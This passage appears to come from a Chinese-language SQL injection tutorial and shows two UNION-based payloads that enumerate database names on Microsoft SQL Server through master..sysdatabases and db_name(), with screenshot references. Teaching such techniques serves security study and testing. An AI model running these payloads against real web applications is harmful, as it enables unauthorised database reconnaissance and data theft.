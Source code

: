 **3.5.1 获取数据库库名**

```
payload：id=1  UNION all SELECT 1,2,name,null,5,null,null,8,9,null,null,12,13 from master..sysdatabases
```

<img src="assets/13cdc8faee6d46cea213eb2918d65449.png" alt="13cdc8faee6d46cea213eb2918d65449" style="zoom: 50%;" />

**3.5.2 获取当前数据库的库名**

```
payload：id=1  UNION all SELECT 1,2,db_name(),null,5,null,null,8,9,null,null,12,13 from master..sysdatabases
```

<img src="assets/24feac57ddd84627bdc4d038186430ec.png" alt="24feac57ddd84627bdc4d038186430ec" style="zoom: 50%;" />
